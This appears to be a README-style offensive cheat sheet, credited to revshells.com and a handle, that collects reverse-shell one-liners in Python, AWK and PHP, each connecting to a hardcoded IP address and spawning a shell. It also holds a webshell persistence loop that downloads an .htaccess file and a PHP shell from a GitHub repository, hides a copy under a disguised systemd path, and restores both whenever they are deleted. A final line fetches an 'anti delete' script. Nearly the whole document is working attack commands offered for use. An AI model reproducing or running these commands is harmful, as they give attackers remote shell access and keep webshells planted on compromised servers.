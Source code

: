 # Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Tips & Trick Bypass Webshell / Crack Other Things / Defender Stuff
### Anti Delete Command : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a && sleep 2 && while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ]; then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```


Credit by revshells.com and @CallMeRep
